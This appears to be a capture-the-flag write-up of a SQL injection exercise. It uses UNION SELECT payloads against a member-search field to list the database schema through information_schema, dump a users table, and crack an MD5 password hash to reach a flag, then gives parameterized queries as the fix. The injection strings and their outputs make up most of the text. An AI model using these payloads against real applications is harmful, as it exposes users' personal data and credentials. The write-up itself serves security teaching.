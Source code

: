 # Search members by ID

### Introduction

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

### Procedure

By entering an ID number, we can attempt to retrieve an initial table!

``
ID: 1 
First name: one
Surname : me
``

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations, we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users

```

We successfully retrieved all the corresponding tables and columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``

``` 
ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: me

ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: France

ID: 1 UNION SELECT first_name, country FROM users
First name: two
Surname: Finland

ID: 1 UNION SELECT first_name, country FROM users
First name: three
Surname: Ireland

ID: 1 UNION SELECT first_name, country FROM users
First name: Flag
Surname: 42
```

We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT first_name, Commentaire FROM users``

```
ID: 1 UNION SELECT first_name, Commentaire FROM users
First name: Flag
Surname: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
```

``1 UNION SELECT first_name, countersign FROM users``

```
ID: 1 UNION SELECT first_name, countersign FROM users
First name: Flag
Surname: 5ff9d0165b4f92b14994e5c685cdce28
```

### Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``5ff9d0165b4f92b14994e5c685cdce28`` to ``FortyTwo``. Following the instructions in the comment, we lower the characters to ``fortytwo``, and then encrypt it with a SHA-256 tool, resulting in ``10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5``.

### How to fix

We can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements". 

### Sources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#defense-option-3-allow-list-input-validation
